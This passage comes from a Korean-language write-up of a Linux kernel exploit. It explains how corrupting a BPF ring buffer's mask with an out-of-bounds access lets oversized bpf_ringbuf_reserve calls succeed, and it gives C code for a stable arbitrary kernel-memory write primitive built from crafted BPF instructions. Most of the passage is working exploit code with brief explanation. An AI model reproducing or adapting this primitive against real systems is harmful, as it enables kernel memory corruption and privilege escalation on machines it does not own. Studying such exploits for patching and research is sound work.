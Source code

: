 ```c
	logprint();
	if(progfd==-1){
		return -1;
	}
	runprog(progfd);
	return progfd;
}
```

이제 rb->mask를 oob를 이용하여 조작함으로써  `bpf_ringbuf_reserve` 의 요청 size가 map size보다 크더라도 함수가 성공하여 포인터를 리턴하게 됩니다.

그리고 함수가 성공할 경우 bpf verifier에서는 요청 사이즈를 return pointer의 범위로 간주하기 때문에, 이제 이 pointer를 이용해 자유로운 oob read write primitive를 얻을 수 있습니다. 

stable oob write

```c
uint64_t oobwrite(int offset,uint64_t value_64){
	adjust_prod_pos();
	uint32_t value_l=value_64&0xffffffff;
	uint32_t value_h=value_64>>32;
	struct bpf_insn prog[] = {
	  BPF_MOV64_IMM(BPF_REG_0, 0),                  // 
	  BPF_LD_MAP_FD(BPF_REG_1, mapfd1),             // BPF_MAP_TYPE_RINGBUF mapfd
    BPF_MOV64_IMM(BPF_REG_2, 0x20000000-8),       // r2 = 0x20000000-8 (size)
    BPF_MOV64_IMM(BPF_REG_3, 0), 									// r3 = 0 (flag)
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_reserve),
  	BPF_MOV64_REG(BPF_REG_4,BPF_REG_0),
    
	  BPF_MOV64_REG(BPF_REG_2, BPF_REG_0),          // r2 = r0 alloc_mem
	  BPF_ALU64_IMM(BPF_ADD, BPF_REG_2,offset),  		// r3 = *(DWORD *)(r2+offset)
	  BPF_MOV64_IMM(BPF_REG_3, value_l),						// *(QWORD *)(r3) = value_64
	  BPF_STX_MEM(4,BPF_REG_2,BPF_REG_3,0),
	  BPF_MOV64_IMM(BPF_REG_3, value_h),
	  BPF_STX_MEM(4,BPF_REG_2,BPF_REG_3,4),
    
		BPF_MOV64_REG(BPF_REG_1, BPF_REG_4),
    BPF_MOV64_IMM(BPF_REG_2, 0),
	  BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0,BPF_FUNC_ringbuf_discard),
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN()
	};
	int progfd = bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER, prog, sizeof(prog) / sizeof(struct bpf_insn), "GPL");
	logprint();
	if(progfd==-1){
		puts("oob write fail");
	  	return -1;
	}
	runprog(progfd);
	expected_prod_pos+=0x20000000;
	*(uint64_t *)((uint8_t *)cons_pos) += 0x20000000; 
	close(progfd);

	return 0;

}
```
